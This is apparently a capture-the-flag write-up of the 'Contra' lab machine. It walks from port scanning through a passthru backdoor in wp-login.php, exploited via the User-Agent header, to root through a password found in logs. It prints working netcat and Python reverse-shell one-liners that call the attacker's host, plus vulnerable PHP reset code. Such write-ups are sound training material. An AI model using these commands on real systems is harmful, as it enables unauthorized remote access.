# Contra

__MACHINE IP__: 10.1.1.38

__DATE__: 7/10/2019

__START TIME__: 10:33 AM


## `NMAP`



okay so there are 3 ports open and we can see that FTP allows anonymous login. So we'll start to looking from that.

## FTP

I logged in using `anonymous: anonymous` credentials but I didn't found anything in there.



So I moved on to HTTP service.

## HTTP


Since there was nothing in the comments section of that page I started a gobuster scan on it.



We can see that there is a `blog` and two files.

In `notes.txt` I found a `warning`



```
/!\ Urgent :Our infrastructure got hacked by some hackers . Everyone must change credentials and please dont download zipped files because  they may be backdoored !
```

In the Zip file there were all the `Wordpress blog` files. So first thing I did was to `cat` the `wp-config.php` to get the `DB` credentials, assuming they would help in login.

The credential I got were `username:password`, I tried those but that didn't worked.

Then I decided to search for string `backdoor` in all those blog files to see if I get something and to my luck I did



Opening the `wp-login.php` file to take a proper look and I saw in the code



The way to exploit it is run commands in the `User-agent` field and they will be executed on the system. Why? Because this is what is happening on that line.

In PHP [passthru](https://www.php.net/manual/en/function.passthru.php) executes the `external` program and gives the output. So basically whatever is in the `User-agent` field will be executed on the system.

I tried with `cat wp-config.php` to see whether my method works or not and it actually did.



## Reverse Shell and User PWN

I kept on looking and found the `user.txt`



For some reason `nc -e /bin/sh 10.254.1.227 4444` didn't worked so I used the python version i.e

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.254.1.227",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



## Privilege escalation

I ran enumeration script but it didn't found anything interesting in there.
- `mysql -u username -p password -e "use contra;SELECT * FROM creds;"`



got nothing in db `contra`.

Then I [@andreas]() told me to look in `/var/www/html` and in there I found a directory named `RecoveryUtility`.



In that directory I found `newpass.php` having php code.



```php
<?php
error_reporting(-1); // reports all errors
ini_set("display_errors", "1");
// admin can you make logs unreadable for more security  ?
$newpass = $_GET["newpassword"];

$command = sprintf("UPDATE credentials SET password='%s' ",$newpass);
$conn = new mysqli("localhost", "username", "password","contra");
// Check connection
if ($conn->connect_error) {
    die("Connection failed: " . $conn->connect_error);
}
if ($conn->query($command) === TRUE) {
    echo "Record updated successfully";
} else {
    echo "Error updating record: " . $conn->error;
}
$conn->close();
?>
```

We can see that there is a `$newpass = $_GET["newpassword"];` which mean it's getting new password from `newpassword` field and then updating it.

I did `http://10.1.1.38/RecoveryUtility/newpass.php?newpassword=mzfrpassword`  and got `Record update`



But I was not sure what happens with that but then I noticed the comment in the source
```
// admin can you make logs unreadable for more security  ?
```

So I checked out `/var/log`. There was `access.log.2.gz` which had

```
-rwxrwxrwx  1 root     adm       33135 Dec 16  2018 access.log.2.gz
```

so I did `gunzip -k access.log.2.gz` and got `access-log.2` which had `www-data` permission meaning we can read it.



Then I did `cat access.log.2 | grep password` and got password for bill.



`Sup3rp@ssw0rd99`

I tried to `su bill` but it didn't work so I tried `su root` with that password and I got root shell.





***

This was machine was fun todo. Thanks to [@H4d3s]() for making this machine.

Thank to [@4ndr34z](https://twitter.com/4nqr34z) for helping me.

***

Thanks for reading, Feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”.
